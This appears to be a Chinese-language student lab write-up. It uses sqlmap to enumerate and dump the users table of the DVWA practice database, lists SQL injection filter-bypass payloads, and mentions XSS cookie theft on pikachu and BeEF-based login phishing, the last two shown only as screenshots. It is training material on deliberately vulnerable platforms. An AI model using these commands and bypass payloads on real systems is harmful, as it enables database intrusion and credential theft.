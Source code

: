 ## 1.使用 sqlmap 工具完成对 DVWA 数据库的注入过程，要求按照库、表、列、内容的顺序进行注入。

D:\python3\sqlmap>python sqlmap.py -r 1.txt --batch -p id --current-db

[13:52:25] [INFO] fetching current database
current database: 'dvwa'



D:\python3\sqlmap>python sqlmap.py -r 1.txt --batch -p id --tables -D dvwa

[13:57:12] [INFO] fetching tables for database: 'dvwa'
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+



D:\python3\sqlmap>python sqlmap.py -r 1.txt --batch -p id --columns  -D dvwa

[14:19:30] [INFO] fetching tables for database: 'dvwa'
[14:19:30] [INFO] fetching columns for table 'guestbook' in database 'dvwa'
[14:19:30] [INFO] fetching columns for table 'users' in database 'dvwa'
Database: dvwa
Table: guestbook
[3 columns]
+------------+----------------------+
| Column     | Type                 |
+------------+----------------------+
| comment    | varchar(300)         |
| name       | varchar(100)         |
| comment_id | smallint(5) unsigned |
+------------+----------------------+

Database: dvwa
Table: users
[8 columns]
+--------------+-------------+
| Column       | Type        |
+--------------+-------------+
| user         | varchar(15) |
| avatar       | varchar(70) |
| failed_login | int(3)      |
| first_name   | varchar(15) |
| last_login   | timestamp   |
| last_name    | varchar(15) |
| password     | varchar(32) |
| user_id      | int(6)      |
+--------------+-------------+



D:\python3\sqlmap>python sqlmap.py -r 1.txt --batch --dump -T users

users表数据在users.csv里

## 2.练习课件上给出的 SQL 注入绕过方式。

大小写绕过    SELECt   1;

关键字绕过     selselectect  last_name  from  users;

用编码绕过     %73%65%6c%65%63%74 1;(select 1 的 URL编码)

用注释绕过     select/**/1;

​                       select  user,password  from  users  /*!union*/    /*!all*/  /*!select*/  1,2;

使用等价函数和命令        select 0x61;

​                        select  user,password  from  users   where   user_id  =  1   &&   1 = 1;

使用特殊符号   select  user,password  from`users`   where   user_id  =  1   &&   1 = 1;

​                       select+password-1+1.from users;

##  3.XSS

- ## 使用 pikachu 平台练习 XSS 键盘记录、前台 XSS 盲打攻击获取 cookie；

![1](1.png)


![2](2.png)


![3](3.png)

- ## 使用 beef 制作钓鱼页面，克隆任意站点的登录页面并获取用户登录的账号密码。

![4](4.png)


![5](5.png)
